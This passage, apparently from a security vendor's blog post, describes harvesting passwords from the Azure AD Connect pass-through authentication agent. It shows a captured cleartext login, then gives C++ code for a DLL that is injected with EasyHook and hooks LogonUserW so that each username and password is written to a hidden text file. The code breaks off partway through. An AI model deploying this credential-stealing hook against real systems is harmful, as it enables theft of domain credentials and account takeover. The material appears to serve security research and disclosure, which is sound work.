 [[![api-monitor-768x42.png](../_resources/6b130fbda0b02a3473f3dc9c00d3b27d.png)](https://blogvaronis2.wpengine.com/wp-content/uploads/2020/04/api-monitor.png)](https://blogvaronis2.wpengine.com/wp-content/uploads/2020/04/api-monitor.png)

The user “noob” authenticated with the password “mypassword”.

[[![ralph.png](../_resources/5e4c17d94be0243de6a4da44271f4ee2.png)](https://blogvaronis2.wpengine.com/wp-content/uploads/2020/04/ralph.png)](https://blogvaronis2.wpengine.com/wp-content/uploads/2020/04/ralph.png)

## Creating an API Monitor

Now that we know how to access passwords, let’s see if we can automate the process.

The plan is to inject a DLL into the ***AzureADConnectAuthenticationAgentService.exe*** and rewrite the pointer to the function ***LogonUserW** *with our own function.

Using [EasyHook](https://easyhook.github.io/), we wrote a DLL that hooks the ***LogonUserW**  *function and replaces it with a new ***LogonUserW***:

1. BOOL myLogonUserW(LPCWSTR lpszUsername, LPCWSTR lpszDomain, LPCWSTR lpszPassword, DWORD dwLogonType, DWORD dwLogonProvider, PHANDLE phToken)

2. {
3.  //Write to file
4.  ofstream myfile;
5.  myfile.open("c:\\temp\\shhhh.txt", std::ios_base::app);
6.
7.  string user = utf8_encode(lpszUsername);
8.  string pass = utf8_encode(lpszPassword);
9. myfile << "Username: ";
10.  myfile << user << "\n";
11.  myfile << "Password: ";
12.  myfile << pass << "\n\n";
13.  myfile.close();
14.
